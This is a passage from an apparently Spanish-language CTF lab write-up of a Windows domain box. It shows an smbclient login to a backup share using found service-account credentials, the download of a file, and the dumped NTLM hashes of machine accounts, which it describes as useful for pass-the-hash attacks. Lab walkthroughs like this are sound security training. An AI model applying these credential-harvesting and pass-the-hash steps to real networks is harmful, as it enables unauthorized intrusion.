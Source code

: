 
```bash
─(zikuta㉿zikuta)-[~/Desktop/soupedecode]
└─$ smbclient //10.201.99.61/backup -U file_svc -p 'Password123!!' 
Password for [WORKGROUP\file_svc]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jun 17 12:41:17 2024
  ..                                 DR        0  Fri Jul 25 12:51:20 2025
  backup_extract.txt                  A      892  Mon Jun 17 03:41:05 2024

                12942591 blocks of size 4096. 10593927 blocks available
smb: \> get backup_extract.txt
getting file \backup_extract.txt of size 892 as backup_extract.txt (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
```

Dentro del recurso compartido `backup`, se encontró un archivo interesante:  
`backup_extract.txt`

Tras descargarlo, se reveló una **sorpresa crítica**:

```bash
──(zikuta㉿zikuta)-[~/Desktop/soupedecode]
└─$ cat backup_extract.txt                                                
WebServer$:2119:aad3b435b51404eeaad3b435b51404ee:c47b45f5d4df5a494bd19f13e14f7902:::
DatabaseServer$:2120:aad3b435b51404eeaad3b435b51404ee:406b424c7b483a42458bf6f545c936f7:::
CitrixServer$:2122:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
FileServer$:2065:aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559:::
MailServer$:2124:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
BackupServer$:2125:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
ApplicationServer$:2126:aad3b435b51404eeaad3b435b51404ee:8cd90ac6cba6dde9d8038b068c17e9f5:::
PrintServer$:2127:aad3b435b51404eeaad3b435b51404ee:b8a38c432ac59ed00b2a373f4f050d28:::
ProxyServer$:2128:aad3b435b51404eeaad3b435b51404ee:4e3f0bb3e5b6e3e662611b1a87988881:::
MonitoringServer$:2129:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
```

El archivo `backup_extract.txt` contiene **hashes NTLM de cuentas de máquinas (computer accounts)** del dominio en formato `LM:NTLM`. Esto es extremadamente valioso para ataques de **Pass-the-Hash** o **Overpass-the-Hash**. Aquí tu plan de acción

### ### **Exposición de hashes NTLM de cuentas de equipos**

El archivo `backup_extract.txt` contenía **hashes NTLM** de múltiples **cuentas de máquinas (computer accounts)** del dominio, en el formato típico de SAM dump:

- **Formato**:  
    `[Cuenta]$:[ID]:[LMhash]:[NThash]:::`  
    Ejemplo:  
    `WebServer$:2119:aad3b...:c47b45f5d4df5a...:::`
    
     **Lo importante**: El **hash NTLM** (tercer campo después del `:`).
    
    - `aad3b435b51404eeaad3b435b51404ee` es el LMhash (vacío/deshabilitado).
    
- El cuarto campo es el NThash (ej: `c47b45f5d4df5a494bd19f13e14f7902`).
